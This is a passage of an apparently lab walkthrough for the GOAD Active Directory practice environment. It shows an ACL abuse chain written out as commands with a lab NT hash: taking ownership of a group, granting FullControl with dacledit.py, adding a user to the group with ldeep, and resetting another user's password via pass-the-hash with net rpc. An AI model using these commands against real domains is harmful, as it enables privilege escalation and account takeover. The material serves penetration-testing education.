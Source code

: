 ![acl_changeowner.png](/assets/blog/GOAD/acl_changeowner.png)

- And the owner of kingsguard group is now tyron.lannister
- As owner of the group we can now change the acl and give us GenericAll on the group

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal tyron.lannister  -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998'
```

- With GenericAll now we can add tyron to the kingsguard group

```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

![acl_writeowner_addgroup.png](/assets/blog/GOAD/acl_writeowner_addgroup.png)

## Generic all on user (kingsguard -> stannis)

- Now tyron is in kingsguard so we can take the control of stannis with the genericAll on stannis

![acl_genericall_group.png](/assets/blog/GOAD/acl_genericall_group.png)

- let's change stannis password with ldeep

```bash
net rpc password stannis.baratheon --pw-nt-hash -U sevenkingdoms.local/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998 -S kingslanding.sevenkingdoms.local
```

- We will set the password `Drag0nst0ne` (i know it is the same as before but i didn't want to change the screenshots in the next part :p )

